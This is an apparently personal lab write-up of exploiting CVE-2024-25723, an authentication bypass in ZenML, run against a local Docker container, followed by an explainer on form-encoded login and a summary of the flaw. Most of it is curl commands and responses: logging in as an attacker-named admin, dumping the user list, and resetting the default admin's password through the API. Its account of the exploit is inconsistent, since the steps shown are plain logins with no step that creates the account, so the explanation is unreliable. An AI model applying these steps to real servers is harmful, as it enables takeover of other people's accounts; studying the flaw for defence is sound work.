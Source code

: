 Here’s a detailed breakdown of the steps you performed, which led to successfully exploiting CVE-2024-25723 in ZenML
Objective:
Exploit CVE-2024-25723 to gain unauthorized access to an existing ZenML user account.
Deployig Zenml
  **docker run -it -d -p 8080:8080 --name zenml zenmldocker/zenml-server:0.46.0**
check zenml is running or not
  **docker ps or docker logs zenml**
  **curl -i http://localhost:8080/**
Verify what type of authentication used 
   **curl -X GET http://localhost:8080/openapi.json**
execute the container 
  **docker exec -it zenml bash**
**Checking Existing Users in ZenML**
create a new user in ZenML but found that a default user already existed:
  **zenml user create default --password 3gx9AbzP92rfHhZ --role admin**
  Error received:
  Found existing user with this name.
This confirmed that the **default** user already exists.
**Listing Users to Confirm Existence**
zenml user list**
Attempting to Reset Password via API (Exploit)**
Since CVE-2024-25723 allows an unauthenticated user to activate an account with a new password, you attempted this attack.
Exploit Attempt:
curl -X POST "http://localhost:8080/api/v1/auth/login" \
     -H "Content-Type: application/json" \
     -d '{"username": "new_admin", "password": "NewStrongPass123"}'
     Error Received:
{"detail":"Method Not Allowed"}
This method didn't work, so another approach was needed.
o	The endpoint does not allow direct JSON-based login attempts.
o	The login method is incorrect or requires a different approach
Successfully Logging in With the Exploit
Tried with another method using form-encoded authentication: 
curl -X POST http://localhost:8080/api/v1/login -H "Content-Type: application/x-www-form-urlencoded" -d grant_type=password&username=new_admin&password=NewStrongPass123"
The grant_type=password parameter is often used in OAuth-based authentication
This successfully returned an access token:
{"access_token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...","token_type":"bearer"}
This token proves that successfully bypassed authentication using the exploit.
Using the Token to View Users
Once authenticated, you used the token to list all users:
curl -X GET http://localhost:8080/api/v1/users -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."
Response:
{
  "index":1,
  "max_size":20,
  "total_pages":1,
  "total":2,
  "items":[
    {
      "id":"1855746a-75b4-4a8a-9935-137f0bdbf085",
      "name":"default",
      "roles":[{"name":"admin"}]
    },
    {
      "id":"7ab86a38-92bd-41a9-9707-cf910246dd6c",
      "name":"new_admin",
      "roles":[{"name":"admin"}]
    }
  ]
}

Now, you have full access to user information, confirming the exploit worked.
How to Log into the ZenML Web Portal?
1. Open the ZenML Web Portal
•	If you're running ZenML locally, open your browser and go to: 
http://localhost:8080
•	If ZenML is running on a remote server, replace localhost with the server’s IP: 
http://<your-server-ip>:8080
Enter Login Credentials
Use the credentials you set during the attack.
For example, if you created the user new_admin with:
curl -X POST "http://localhost:8080/api/v1/login" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "grant_type=password&username=new_admin&password=NewStrongPass123"
Then, in the web portal login page, enter:
•	Username: new_admin
•	Password: NewStrongPass123
. Reset Another User’s Password (If Needed)
If you need to change the password of an existing user (e.g., default), you can use the API:
bash
CopyEdit
curl -X PATCH "http://localhost:8080/api/v1/users/1855746a-75b4-4a8a-9935-137f0bdbf085" \
     -H "Authorization: Bearer <your-access-token>" \
     -H "Content-Type: application/json" \
     -d '{"password": "NewAdminPass456"}'
Then, log in with:
•	Username: default
•	Password: NewAdminPass456

Verify Admin Access
Once logged in, you should see the ZenML dashboard and be able to:
•	Manage pipelines and users
•	Modify configurations
•	Run additional exploits if needed

=========================================================================================
What is Form-Encoded Authentication?
Form-Encoded Authentication refers to a method where authentication data (such as a username and password)
is sent in an HTTP request using the application/x-www-form-urlencoded content type. This format is commonly used in HTML forms and API requests

How It Works
Instead of sending JSON data (like in modern APIs), form-encoded authentication sends key-value pairs formatted as:
key1=value1&key2=value2
Example: JSON vs. Form-Encoded Authentication
JSON-Based Authentication (Common in REST APIs)
curl -X POST "http://example.com/api/login" \
     -H "Content-Type: application/json" \
     -d '{"username": "admin", "password": "password123"}'
Form-Encoded Authentication (Used in Older Systems, OAuth2, Web Forms, etc.)
curl -X POST "http://example.com/api/login" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "username=admin&password=password123"

Why is it Used?
•	Legacy Support: Many older web applications and APIs expect data in this format.
•	Compatibility with HTML Forms: Traditional web login forms submit data in this format by default.
•	OAuth2 Token Requests: OAuth2 uses form-encoded authentication to request access tokens.
Example: OAuth2 Login Using Form-Encoded Authentication
curl -X POST "http://example.com/oauth/token" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "grant_type=password&username=admin&password=password123"
=====================================================================================================

Consolidated Summary of Issues in CVE-2024-25723 (ZenML Authentication Bypass)
CVE-2024-25723 exposes a critical authentication bypass vulnerability in ZenML due to improper validation of user activation status, leading to unauthorized account creation and access.
Key Issues:
1.	Incorrect Authentication Flow Handling:
o	The system did not verify if a user was pre-registered and activated before allowing login.
o	Attackers could bypass authentication checks and log in simply by providing credentials.
2.	Session Management Flaws:
o	Logging in implicitly activated accounts, allowing newly registered users to authenticate without email confirmation or admin approval.
o	The system granted authentication tokens without checking if the account was verified or active.
3.	Authorization Logic Errors:
o	The system failed to enforce proper access control, allowing attackers to create arbitrary users (e.g., new_admin) and set their own passwords.
o	This effectively enabled unauthorized self-registration and potential privilege escalation.










